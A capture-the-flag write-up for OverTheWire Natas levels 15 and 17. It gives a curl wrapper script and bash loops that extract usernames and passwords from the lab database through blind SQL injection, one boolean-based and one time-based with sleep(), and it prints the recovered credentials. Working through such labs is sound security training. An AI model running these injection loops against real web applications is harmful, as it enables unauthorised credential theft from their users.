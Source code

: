 # NATAS

**https://overthewire.org/wargames/natas/natas0.html**

### Natas15

**First, let's get our injector going. Just the curl with the data from the post prepared:**

cat injector.sh
>#!/bin/bash  
>  
>DATA=$1  
>  
>curl -s 'http://natas15.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic XXXXXXXXXXXXXXXXXXXXXXXXXXX' -H 'Cookie: __cfduid=XXXXXXXXXXXXXXXXXXXXX' -H 'Host: natas15.natas.labs.overthewire.org' -H 'Referer: http://natas15.natas.labs.overthewire.org/index.php' --data "username=testssdf\" or $DATA" | grep -c "This user exists"  

**Then, let's start injecting:**

USER=0;for j in {0..3}; do for((h=1;h<=10;h++)); do RES=$(./injector.sh "(select length(username) from users limit $USER,1)=%22$h"); if [[ $RES == 1 ]]; then L=$h; fi; done; echo -n "[+]Found user $USER: "; for((t=1;t<=$L;t++)); do for i in {32..126}; do RES2=$(./injector.sh "(select ascii(substr(username,$t,1)) from users limit $USER,1)=%22$i"); if [[ $RES2 == 1 ]]; then printf \\$(printf '%03o\n' "$i"); fi; done;done;echo "";  USER=$(echo $USER+1 | bc); done
>[+]Found user 0: alice  
>[+]Found user 1: bob  
>[+]Found user 2: charlie  
>[+]Found user 3: natas16  

USER=0;for j in {0..3}; do for((h=1;h<=10;h++)); do RES=$(./injector.sh "(select length(password) from users limit $USER,1)=%22$h"); if [[ $RES == 1 ]]; then L=$h; fi; done; echo -n "[+]Found password $USER: "; for((t=1;t<=$L;t++)); do for i in {32..126}; do RES2=$(./injector.sh "(select ascii(substr(password,$t,1)) from users limit $USER,1)=%22$i"); if [[ $RES2 == 1 ]]; then printf \\$(printf '%03o\n' "$i"); fi; done;done;echo "";  USER=$(echo $USER+1 | bc); done
>[+]Found password 0: hROtsfM734  
>[+]Found password 1: 6P151OntQe  
>[+]Found password 2: HLwuGKts2w  
>[+]Found password 3: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX **<- No spoils ^^**   


### Natas17

**Same as before, but without output. So let's get the timing...**

cat injector_timing.sh
>#!/bin/bash   
>   
>DATA=$1   
>   
>curl -s 'http://natas17.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX' -H 'Cookie: __cfduid=XXXXXXXXXXXXXXXXXXXXXX' -H 'Host: natas17.natas.labs.overthewire.org' -H 'Referer: http://natas17.natas.labs.overthewire.org/' --data "username=test\" or $DATA" > /dev/null   

**Now we know who is the user we are looking for: natas18**

echo -n "[+]Found password for natas18: "; for((h=1;h<40;h++)); do for i in {32..126}; do RES=$( { time ./injector_timing.sh "(select sleep(2) from users where username=%22natas18%22 and ascii(substr(password,$h,1))=%22$i%22) and %221%22=%221"; } 2>&1 ); TIME=$(echo "$RES" | grep real | cut -d' ' -f2 | grep -oP "\d+m\d+" | cut -d'm' -f2); if [[ $TIME > 2 ]] ;then printf \\$(printf '%03o\n' "$i"); break; fi; done;done; echo ""
>[+]Found password for natas18: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX **<- No spoils ^^**